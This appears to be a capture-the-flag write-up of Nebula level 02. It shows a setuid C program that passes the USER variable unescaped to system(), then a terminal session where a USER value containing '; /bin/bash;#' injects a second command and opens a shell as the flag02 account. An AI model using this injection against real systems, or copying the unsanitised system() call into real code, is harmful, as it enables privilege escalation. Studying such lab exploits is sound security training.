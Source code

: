 # Level 02
This challenge gives us source code to the flag02 binary that we need to exploit.

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}

```

The program does not escape semicolons which can be used to inject arbitrary commands.

```
level02@nebula:/home/flag02$ export USER=mike is cook

level02@nebula:/home/flag02$ ./flag02  cool
about to call system("/bin/echo mike is cool")
mike is cool

level02@nebula:/home/flag02$ export USER="mike is cool; /bin/bash;#"

level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo mike is cool; /bin/bash;# is cool")
mike is cool

flag02@nebula:/home/flag02$ id
uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```